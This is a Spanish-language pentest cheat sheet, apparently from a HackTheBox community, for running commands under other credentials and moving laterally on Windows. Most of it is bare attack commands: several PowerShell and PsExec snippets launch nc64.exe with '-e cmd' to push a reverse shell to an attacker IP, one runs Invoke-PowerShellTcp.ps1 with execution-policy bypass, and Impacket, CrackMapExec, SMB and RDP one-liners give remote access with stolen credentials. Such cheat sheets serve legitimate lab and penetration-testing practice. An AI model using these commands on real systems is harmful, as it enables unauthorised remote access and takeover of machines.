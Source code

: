 POWERSHELL
-------------------------------------
```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "hostname"
[System.Diagnostics.Process]::Start("c:\nc64.exe","10.10.10.10 4567 -e cmd",$mycreds.Username, $mycreds.Password, $computer)


```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
start-process -Credential $mycreds c:\users\"daniel lopez"\desktop\nc64.exe -argumentlist "10.10.10.10 4567 -e cmd"


```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
invoke-wmimethod win32_process -name create -Credential $mycreds -argumentlist 'nc64.exe 10.10.13.6 9090 -e cmd'


EMPIRE --> spawnas


PsExec (PStools microsoft)
-----------------------------------
```
./PsExec64.exe -accepteula -u user -p pass cmd /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass -File "C:\Tools\Invoke-PowerShellTcp.ps1"

```
PsExec64.exe -accepteula -u attl4s -p pass cmd /k C:\users\attl4s\desktop\nc64.exe 192.168.1.50 4567´´´´

SMB
------------------------------------
```
net use \\127.0.0.1 /user:domain\user pass
    net use    
    dir \\127.0.0.1\c$
    dir \\127.0.0.1\ADMIN$

    
WMIC (No se pueden usar las credenciales de usuario para conexiones locales) (Interactive)
----------------------------------
```
wmic /node:hostname /user:domain\user path win32_process call create calc.exe


WINRM
---------------------------
```
$pass = ConvertTo-SecureString "Zx^#QZX+T!123" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "machine"
Invoke-Command -Computer $computer -ScriptBlock {whoami} -credential $mycreds


```
$pass= ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("user", $pass)
$computer="hostname"
Enter-PSSession -ComputerName $computer -Credential $mycreds

    
RUNAS (Interactive)
-----------------------------------
```
runas /netonly /user:domain\user "cmd.exe"
    pass


REMOTO DESDE KALI
-------------------------
```
psexec.py user:pass@10.10.10.10
smbexec.py user:pass@10.10.10.10
wmiexec.py user:pass@10.10.10.10
CrackMapExec.py 10.10.10.10 -d domain -u user -p pass -x cmd

smbclient -U "Administrator" \\\\10.10.10.10\\C$
smbclient \\\\10.10.10.10\\Users -U user pass

rdp_check.py domain\user:pass@10.10.10.10
rdesktop -d domain -u user -p pass 10.10.10.10
´´´

Fuente
---
HackTheBox Hispano (Telegram)
